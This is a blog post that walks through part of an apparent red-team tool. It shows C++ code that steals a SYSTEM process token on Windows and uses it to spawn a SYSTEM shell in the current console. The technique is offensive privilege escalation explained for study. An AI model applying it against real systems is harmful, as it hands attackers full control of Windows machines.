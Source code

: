 ```yaml
---
title:  "ElevationStation - A walk through the development process [PART 3]"
categories:
  - privilege escalation
tags:
  - escalation
  - psexec
  - malware
  - red team
  - win32api
  - privesc
  - privilege escalation
  - elevationstation
  - getsystem
  - metasploit
---
```


Hey, we made it to part 3 already!  Glad you are still hanging around and hopefully this part is as insightful and exciting to you as it was for me...er...I get excited very easily.  You may not get as hyped as I did but that's cool, I'll shutup now and we can get started 😆  This is my favorite part of the entire code behind elevationstation, and consequently the portion of my research into privilege escalation using token manip that took the longest to figure out 😜

For Part 3, will be discussing SYSTEM token manipulation involving execution threads... 

Our goal: 
-
Spawn a SYSTEM shell within our current shell, and not a separate shell like we did in PART 1.

The Dilemma
- 
Each process has a set of privileges either enabled by default or disabled.  If the privilege we need isn't listed, we can't enable it.  There's no adding it magically into the process' current primary token.  We just so happen to need a privilege that is **NOT** enabled by default in an administrative command shell:
**SE_ASSIGNPRIMARYTOKEN_NAME**

Here are the token privileges for our admninistrative / elevated cmd.exe.  See for yourself, that privilege doesn't exist:
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/fb5c8af8-9eb8-4d0b-b986-fa4a4db5f08c)

Why do we even need this stupid privilege in the first place?  Because CreateProcessAsUser, which allows for spawning a cmd shell within the current console, **MUST** have this privilege enabled in almost all circumstances to execute a new process.  Check this out:

**CreateProcessAsUserA function (processthreadsapi.h)**

![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/8c61852b-5e7c-481a-a81d-9d82e5bd6059)
[CreateProcessAsUser Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera)

The absolutely infuriating aspect to all this is **CreateProcessWithToken** is VERY forgiving with required token privileges for spawning a new process.  
However, it has a "bug" which will not allow the spawning of a process within the current process.  In our case, a new cmd shell within our current cmd shell.
If ANYONE knows a way around this, please, speak up.  Inquiring minds need to know 🤔

The Solution!
-
Residing in our target process we wish to steal privs from lies the highly sought after privilege we so desperately need.  

`Step 1` - We need to steal & impersonate the process impersonation token from the target process with SYSTEM privileges
```cpp
int DupThreadToken(DWORD pid)
{
    setProcessPrivs(SE_DEBUG_NAME);
    remoteproc = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, TRUE, pid);
    if (remoteproc)
    {
        Color(2);
        wprintf(L"[+] Opened remote process!\n");
        Color(7);
    }
    else
    {
        Color(14);
        wprintf(L"[!] OpenProcess(). Error: %d\n", GetLastError());
        Color(7);
    }
    
   ➡️ if (!OpenProcessToken(remoteproc, TOKEN_IMPERSONATE | TOKEN_DUPLICATE | TOKEN_QUERY | TOKEN_ASSIGN_PRIMARY, &tok2)) ⬅️
    {
        Color(14);
        wprintf(L"[!] OpenProcessToken(). Error: %d\n", GetLastError());
        Color(7);
    }
```
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/2de0b57e-7b0f-4fc6-a4d2-923625e4992e)

Okay!  so now we have a handle to the process token for the target process, in this case it is **AppleMobleDeviceService.exe**, which is running as **NT AUTHORITY/SYSTEM**

Next up, we need to set the new token privs to our current process' execution thread.  I duplicate the impersonation token here to be on the safe side, but it may not be necessary. Either way, it works so no harm done.  So, dup the remote process token and then set the threadtoken to our current thread using `NULL`

```cpp
if (!DuplicateToken(tok2, SecurityImpersonation, &hNewToken))
    {
        Color(14);
        wprintf(L"[!] DuplicateTokenEx() failed. Error: %d\n", GetLastError());
        Color(7);
    }
    if (SetThreadToken(NULL, hNewToken))
    {
        Color(2);
        printf("[+] Successfully set the thread token!\n");
        Color(7);
    }
```
We now have the remote process' privileges in our current process' execution thread!

<a href="https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/dad2d5f9-7b27-4838-8f16-a81385051aee">![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/dad2d5f9-7b27-4838-8f16-a81385051aee)</a>

Now that we hold the privileges of the SYSTEM process, let's enable the privilege we wanted in the first place!

```cpp
setThreadPrivs(SE_INCREASE_QUOTA_NAME);     //need this for CreateProcessAsUser!
setThreadPrivs(SE_ASSIGNPRIMARYTOKEN_NAME); //need this for CreateProcessAsUser!
```
<a href="https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/2637214c-ab91-4c32-945a-52efcdcdf121">![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/2637214c-ab91-4c32-945a-52efcdcdf121)</a>

Awesome, it's now enabled and I also went ahead and enabled SeIncreaseQuotaPrivilege too just in case.

We're almost there!  From here, we do some final magic and open a threadtoken against our current process now that we have all our privileges set, and duplicate that token to create a new primary token.  From there, we now finally have a handle to a brand new primary token that holds that privilege we needed from the **SYSTEM** process we stole it from!  All this just to spawn a shell within our current shell because this API is rude... 😠😆  Here's the code:
```cpp
 if (!OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &hSystemToken))
    {
        Color(14);
        wprintf(L"[!] OpenThreadToken(). Error: %d\n", GetLastError());
        Color(7);
    }
  if (!DuplicateTokenEx(hSystemToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &hSystemTokenDup))
    {
        Color(14);
        wprintf(L"[!] DuplicateTokenEx() failed. Error: %d\n", GetLastError());
        Color(7);
    }
    bRet = CreateProcessAsUser(hSystemTokenDup, NULL, wszProcessName, NULL, NULL, TRUE, dwCreationFlags, lpEnvironment, pwszCurrentDirectory, &StartupInfo, &ProcInfo);

    if (bRet == 0)
    {
        Color(14);
        printf("[!] CreateProcessAsUser didn't cooperate...\n");
        Color(7);
        printf("Return value: %d\n", GetLastError());
    }
    else
    {
        Color(2);
        printf("[+] CreateProcessAsUser worked!!!\n");
        Color(7);
        printf("Return value: %d\n", bRet);
        fflush(stdout);
        WaitForSingleObject(ProcInfo.hProcess, INFINITE);

    }
```
and the shell!

<a href="https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/a446b774-b475-4c2c-aa82-45e96ff21db3">![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/a446b774-b475-4c2c-aa82-45e96ff21db3)</a>

Okay, you can breathe.  It's over, you made it to the end. Well done.  I'm tired now so I'm going to bring this to a close.  Hopefully this made some sense and you learned how high maintenance some windows APIs can be. That said, we still managed to overcome our obstacle and pop that desired shell.  Until next time!

-RBC

